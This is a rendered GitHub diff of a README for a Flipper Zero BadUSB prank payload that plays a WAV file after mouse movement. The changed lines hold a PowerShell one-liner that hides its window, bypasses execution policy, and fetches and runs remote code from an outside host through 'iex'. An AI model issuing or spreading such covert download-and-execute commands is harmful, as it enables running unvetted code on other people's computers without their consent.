

Before and after one commit to I-Am-Jakoby/Flipper-Zero-BadUSB, a Markdown page: Payloads/Flip-Play-WAV/README.md, the part around the change. Drawn GitHub-style.

````diff
--- a/Payloads/Flip-Play-WAV/README.md
+++ b/Payloads/Flip-Play-WAV/README.md
@@ -39,7 +39,7 @@ After a mouse movement is detected, the WAV file will be played.
 * Invoke-WebRequest will be entered in the Run Box to download your WAV file
 
 ```
-powershell -w h -NoP -NonI -Ep Bypass $wav='';iwr https://jakoby.lol/vus | iex
+powershell -w h -NoP -NonI -Ep Bypass $wav='';irm https://jakoby.lol/vus | iex
 ```
 
 <p align="right">(<a href="#top">back to top</a>)</p>
````
